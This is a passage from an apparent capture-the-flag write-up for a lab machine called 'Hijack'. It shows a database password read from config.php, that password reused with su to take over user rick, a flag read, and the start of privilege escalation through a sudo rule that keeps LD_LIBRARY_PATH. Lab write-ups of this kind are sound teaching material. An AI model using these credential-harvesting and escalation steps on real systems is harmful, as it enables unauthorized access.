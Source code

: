   -rw-rw-r-- 1 www-data www-data 5957 Jul 12  2023 login.php
  -rw-rw-r-- 1 www-data www-data  220 Jun 23  2023 logout.php
  -rw-rw-r-- 1 www-data www-data  440 Jun 23  2023 navbar.php
  -rw-rw-r-- 1 www-data www-data   88 Jun 23  2023 service_status.sh
  -rw-rw-r-- 1 www-data www-data 3066 Jun 23  2023 signup.php
  -rw-rw-r-- 1 www-data www-data 1916 Jun 23  2023 style.css
  www-data@Hijack:/var/www/html$ cat config.php 
  <?php
  $servername = "localhost";
  $username = "rick";
  $password = "N3v3rG0nn4G1v3Y0uUp";
  $dbname = "hijack";
  
  // Create connection
  $mysqli = new mysqli($servername, $username, $password, $dbname);
  
  // Check connection
  if ($mysqli->connect_error) {
    die("Connection failed: " . $mysqli->connect_error);
  }
  ?>
  ```
  
- NEVER REUSE PASSWORDS!!!!!!!!!

  ```
  www-data@Hijack:/var/www/html$ su rick
  Password: 
  rick@Hijack:/var/www/html$
  
  rick@Hijack:/var/www/html$ cd /home
  rick@Hijack:/home$ ls -al
  total 16
  drwxr-xr-x  4 root    root    4096 Aug  8  2023 .
  drwxr-xr-x 23 root    root    4096 Jun  7 18:16 ..
  drwxr-xr-x  2 ftpuser ftpuser 4096 Aug  8  2023 ftpuser
  drwxr-xr-x  2 rick    rick    4096 Aug  8  2023 rick
  rick@Hijack:/home$ cd rick/
  rick@Hijack:~$ ls -al
  total 12
  drwxr-xr-x 2 rick rick 4096 Aug  8  2023 .
  drwxr-xr-x 4 root root 4096 Aug  8  2023 ..
  lrwxrwxrwx 1 root root    9 Aug  8  2023 .bash_history -> /dev/null
  lrwxrwxrwx 1 root root    9 Aug  8  2023 .mysql_history -> /dev/null
  -rw------- 1 rick rick   38 Aug  8  2023 user.txt
  rick@Hijack:~$ cat user.txt 
  THM{fdc8cd4cff2c19e0d1022e78481ddf36}
  ```
  
- Tutorial ngl.

---

## 👑 Root Privilege Escalation

- Now, let's do the coolest exploitation ever.

  ```
  rick@Hijack:~$ sudo -l
  [sudo] password for rick: 
  Matching Defaults entries for rick on Hijack:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
      env_keep+=LD_LIBRARY_PATH
  